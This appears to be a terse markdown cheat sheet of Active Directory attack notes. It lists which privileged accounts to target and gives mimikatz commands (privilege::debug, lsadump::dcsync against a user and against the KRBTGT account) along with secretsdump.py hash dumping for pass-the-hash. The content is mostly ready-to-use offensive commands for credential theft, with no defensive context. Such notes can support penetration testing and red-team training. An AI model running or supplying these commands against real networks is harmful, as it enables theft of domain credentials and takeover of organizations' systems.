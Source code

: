 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

#### 1) mimikatz

#### 2) lsadump::dcsync /domain:DOMAIN /user:OUR_LOW-PRIVILEGE_AD_USERNAME

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

### Privileges: Replicate Directory Changes, Replicate Directory Changes All

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT
